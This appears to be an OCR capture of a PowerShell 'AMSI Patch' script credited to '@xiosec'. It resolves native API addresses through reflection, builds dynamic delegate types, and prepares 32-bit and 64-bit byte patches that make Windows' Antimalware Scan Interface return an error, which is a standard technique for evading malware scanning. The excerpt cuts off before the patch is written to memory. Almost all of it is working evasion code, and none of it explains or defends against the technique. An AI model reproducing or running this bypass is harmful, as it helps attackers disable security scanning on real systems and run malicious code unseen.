 #### Modified Script

```PowerShell
function Get-ProcAddress {
    Param(
        [Parameter(Position = 0, Mandatory = $True)] [String] $Module,
        [Parameter(Position = 1, Mandatory = $True)] [String] $Procedure
    )

    $SystemAssembly = [AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
    $UnsafeNativeMethods = $SystemAssembly.GetType('Microsoft.Win32.UnsafeNativeMethods')
    $GetModuleHandle = $UnsafeNativeMethods.GetMethod('GetModuleHandle')
    $GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String]))
    $Kern32Handle = $GetModuleHandle.Invoke($null, @($Module))
    $tmpPtr = New-Object IntPtr
    $HandleRef = New-Object System.Runtime.InteropServices.HandleRef($tmpPtr, $Kern32Handle)

    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$HandleRef, $Procedure))
}

function Get-DelegateType
{
    Param
    (
        [OutputType([Type])]

        [Parameter( Position = 0)]
        [Type[]]
        $Parameters = (New-Object Type[](0)),

        [Parameter( Position = 1 )]
        [Type]
        $ReturnType = [Void]
    )

    $Domain = [AppDomain]::CurrentDomain
    $DynAssembly = New-Object System.Reflection.AssemblyName('ReflectedDelegate')
    $AssemblyBuilder = $Domain.DefineDynamicAssembly($DynAssembly, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
    $ModuleBuilder = $AssemblyBuilder.DefineDynamicModule('InMemoryModule', $false)
    $TypeBuilder = $ModuleBuilder.DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $ConstructorBuilder = $TypeBuilder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $Parameters)
    $ConstructorBuilder.SetImplementationFlags('Runtime, Managed')
    $MethodBuilder = $TypeBuilder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $ReturnType, $Parameters)
    $MethodBuilder.SetImplementationFlags('Runtime, Managed')

    return $TypeBuilder.CreateType()
}

Write-Host "~> AMSI Patch";
Write-Host "~> @xiosec`n";

if([IntPtr]::Size -eq 4){
    $patch = [byte[]](0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00)
    Write-Host "[+] 32-bits process"
}else{
    $patch = [byte[]](0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
    Write-Host "[+] 64-bits process"
```
